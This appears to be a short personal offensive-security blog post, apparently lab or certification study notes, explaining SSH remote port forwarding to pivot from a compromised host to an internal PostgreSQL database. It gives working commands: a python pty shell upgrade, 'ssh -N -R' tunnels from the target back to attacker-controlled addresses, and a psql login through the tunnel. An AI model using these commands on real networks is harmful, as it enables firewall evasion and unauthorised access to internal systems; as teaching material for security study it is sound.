 ```yaml
---
layout: post
title: Remote Port Forwarding
titledate: 09/23/23
tags: ["infosec", "offsec", "tunnel"]
---
```


because of security limitations like a firewall, we will most likely be able to ssh out of our target back to our attacking machine

this is a perfect scenario for remote port forwarding

remote port forwarding is when we connect back to an attacker's SSH server, and bind the listening port there - this is similar to a reverse shell

if we examine a previously used example 

attacker -> target1 -> psql db -> smb target2

in this case we are not able to create a listening port on target1

what we can do is create a listening port on 2345 in loopback to catch the target 1 ssh client connection and push it back to the target1 and then forward on to our psql db

first we start the ssh server on the attacker machine

    $ sudo systemctl start ssh

ensure we are using a tty shell using python's pty

    target1: python3 -c 'import pty; pty.spawn("/bin/bash")'

and then on target1

    target1: ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 attacker@192.168.1.1
    target1: ssh -N -R 127.0.0.1:4444:10.4.247.215:4444 kali@192.168.45.154

we pass the -R parameter for remote port forwarding listen on port 2345 and forward all traffic to the psql db machine on 5432

on our attacking machine we can check if we have a listening connection on 127.0.0.1:2345

    $ ss -ntplu

to begin enumerating the psql db we use the local loopback interface 

    $ psql -h 127.0.0.1 -p 2345 -U postgres

